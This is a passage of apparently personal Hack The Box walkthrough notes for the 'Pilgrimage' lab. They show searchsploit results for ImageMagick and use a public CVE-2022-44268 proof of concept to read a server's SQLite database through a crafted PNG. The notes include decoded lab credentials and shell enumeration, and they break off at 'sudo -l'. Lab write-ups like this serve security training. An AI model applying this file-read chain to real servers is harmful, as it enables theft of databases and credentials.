 ```bash
ImageMagick 6.x - '.SGI' Image File Remote Heap Buffer Overflow                                     | linux/dos/28383.txt
ImageMagick 7.0.1-0 / 6.9.3-9 - 'ImageTragick ' Multiple Vulnerabilities                            | multiple/dos/39767.txt
ImageMagick 7.1.0-49 - Arbitrary File Read                                                          | multiple/local/51261.txt
ImageMagick 7.1.0-49 - DoS                                                                          | php/dos/51256.txt
Imagick 3.3.0 (PHP 5.4) - disable_functions Bypass                                                  | php/webapps/39766.php
Wordpress Plugin ImageMagick-Engine 1.7.4 - Remote Code Execution (RCE) (Authenticated)             | php/webapps/51025.txt
---------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

- Searching github for magick POC
- https://github.com/voidz0r/CVE-2022-44268?tab=readme-ov-file
- Clone the project
- `git clone https://github.com/voidz0r/CVE-2022-44268`
- Run the project
- `cargo run "/var/db/pilgrimage"`
- Use the file at pilgrimage.htb
- download converted file `cursed.png`
- Analyze the resized image
- `identify -verbose cursed.png`
- send text from analyzed image to a new file
- `identify -verbose shrunk.png > shunkHex.txt'
- remove all but the hex from the file, do not include the short line of text at the top of it
- use xxd to convert from hex to str
	- username / password from /var/db/pilgrimage
	- emily / abigchonkyboi123
```bash
 ✘ kali@kali  ~/htb/pilgrimage/CVE-2022-44268   master ±  xxd -r -p shrunkHex.txt
e8|StableimagesimagesCREATE TABLE images (url TEXT PRIMARY KEY NOT NULL, original TEXT NOT NULL, username TEXT NOT NULL)+?indexsqlite_autoindex_image-emilyabigchonkyboi123sersCREATE TABLE users (username TEXT PRIMARY KEY NOT NULL, password TEXT NOT NULL))=indexsqlite_autoindex_users_1users
        emily

```

- search local directory
```bash
emily@pilgrimage:~$ ls -aslp
total 36
4 drwxr-xr-x 4 emily emily 4096 Jun  8  2023 ./
4 drwxr-xr-x 3 root  root  4096 Jun  8  2023 ../
0 lrwxrwxrwx 1 emily emily    9 Feb 10  2023 .bash_history -> /dev/null
4 -rw-r--r-- 1 emily emily  220 Feb 10  2023 .bash_logout
4 -rw-r--r-- 1 emily emily 3526 Feb 10  2023 .bashrc
4 drwxr-xr-x 3 emily emily 4096 Jun  8  2023 .config/
4 -rw-r--r-- 1 emily emily   44 Jun  1  2023 .gitconfig
4 drwxr-xr-x 3 emily emily 4096 Jun  8  2023 .local/
4 -rw-r--r-- 1 emily emily  807 Feb 10  2023 .profile
4 -rw-r----- 1 root  emily   33 Feb  1 23:55 user.txt

```
- search root directory
```bash
emily@pilgrimage:~$ cd /root
-bash: cd: /root: Permission denied
```
- sudo -l
	- em